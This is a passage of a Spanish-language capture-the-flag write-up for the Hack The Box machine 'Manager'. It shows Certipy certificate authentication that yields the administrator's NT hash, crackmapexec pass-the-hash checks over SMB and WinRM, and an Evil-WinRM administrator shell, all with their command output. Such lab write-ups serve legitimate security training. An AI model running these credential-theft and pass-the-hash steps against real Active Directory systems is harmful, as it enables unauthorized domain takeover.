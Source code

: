 Por defecto, **Certipy** intentará extraer el nombre de usuario y el dominio del certificado (`-pfx`) para la **autenticación vía Kerberos**.

Y para evitar problemas, indicaremos el usuario administrador, el dominio y la IP: 
```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```
Tenemos el **hash NT**, podemos aplicar el **ataque pass-The-hash**, pero hay que comprobar si en verdad nos sirve este **hash**.

Lo comprobaremos con **crackmapexec**:
```bash
crackmapexec smb 10.10.11.236 -u 'administrator' -H 'ae5064c2f62317332c88629e025924ef'
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\administrator:ae5064c2f62317332c88629e025924ef (Pwn3d!)
```
Funciona.

Ahora en **WinRM**:
```bash
crackmapexec winrm 10.10.11.236 -u 'administrator' -H 'ae5064c2f62317332c88629e025924ef'
SMB         10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\administrator:ae5064c2f62317332c88629e025924ef (Pwn3d!)
```
Igual funciona.

Si bien podemos usar **PsExec**, también podemos usar **Evil-WinRM** para conectarnos como el administrador y buscar la flag:
```batch
evil-winrm -i 10.10.11.236 -u 'administrator' -H 'ae5064c2f62317332c88629e025924ef'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/13/2024  12:10 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```
Con esto, hemos completado la máquina.
